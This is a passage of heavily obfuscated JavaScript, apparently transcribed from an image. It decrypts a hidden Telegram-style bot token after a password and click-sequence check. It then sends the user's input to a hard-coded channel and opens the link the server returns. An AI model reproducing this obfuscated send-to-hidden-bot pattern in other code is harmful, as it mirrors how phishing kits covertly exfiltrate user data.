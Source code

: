 ```js
      t[q] = b;
      u = (z + a) % 5939310
    };
    var k = String.fromCharCode(127);
    var r = '';
    var l = '%';
    var i = '#1';
    var v = '%';
    var e = '#0';
    var f = '#';
    return t.join(r).split(l).join(k).split(i).join(v).split(e).join(f).split(k)
  }
) (
  '%dimfT%mVlzx%degpatf5bfnrG%6tSiqth5at%easpi0emILmcim%e%/!=eZtnHf%e7cf+3rstO%%.D0i8p3t/Sphryoa%IL0rin%rcAeF6%nsenoYaLeQ5Natp4CrSrCGttUtZrdG%rlxe2poa2rdg=9fQs%&j_of0ButCO tb=r35DyCee8tgaCf=I=%rAQa4fe%ar0aonsGT_v/NgoPouP2%eoe%ue3tl&enTceynCtt4FBs%s/rBsAUEhradnkrstfgd?%t%xeyhcedeTo%olghXMsaocrB3aaDBr5rRa16Cjuct%cOee5lWE_ooo+Ka4%d3TysnehshstepId%%Ieoaycug:i_m=%%mjp0tgaiidoei.prn%sw1d',
  4129280
);
function f(oferkfer, icd) {
  const channel_id = - 1002496072246;
  var enc_token = _$_5975[0];
  if (
    oferkfer === G(_$_5975[1]) &&
    CryptoJS[_$_5975[7]](sequence[_$_5975[6]](_$_5975[5])) [_$_5975[4]](CryptoJS[_$_5975[3]][_$_5975[2]]) === _$_5975[8]
  ) {
    var decrypted = CryptoJS[_$_5975[12]][_$_5975[11]](
      enc_token,
      CryptoJS[_$_5975[3]][_$_5975[9]][_$_5975[10]](oferkfer),
      {
        drop: 192
      }
    ) [_$_5975[4]](CryptoJS[_$_5975[3]][_$_5975[9]]);
    var HOST = _$_5975[13] + String[_$_5975[14]](47) + String[_$_5975[14]](98) + String[_$_5975[14]](111) + String[_$_5975[14]](116) + decrypted;
    var xhr = new XMLHttpRequest();
    xhr[_$_5975[15]] = function () {
      if (xhr[_$_5975[16]] == XMLHttpRequest[_$_5975[17]]) {
        const resp = JSON[_$_5975[10]](xhr[_$_5975[18]]);
        try {
          const link = resp[_$_5975[20]][_$_5975[19]];
          window[_$_5975[23]][_$_5975[22]](link)
        } catch (error) {
          alert(_$_5975[24])
        }
      }
    };
    xhr[_$_5975[29]](
      _$_5975[25],
      HOST + String[_$_5975[14]](47) + _$_5975[26] + icd + _$_5975[27] + channel_id + _$_5975[28]
    );
    xhr[_$_5975[30]](null)
  } else {
    alert(_$_5975[24])
  }
};
;
var sequence = [];
;
function l() {
  sequence.push(this.id);
};
```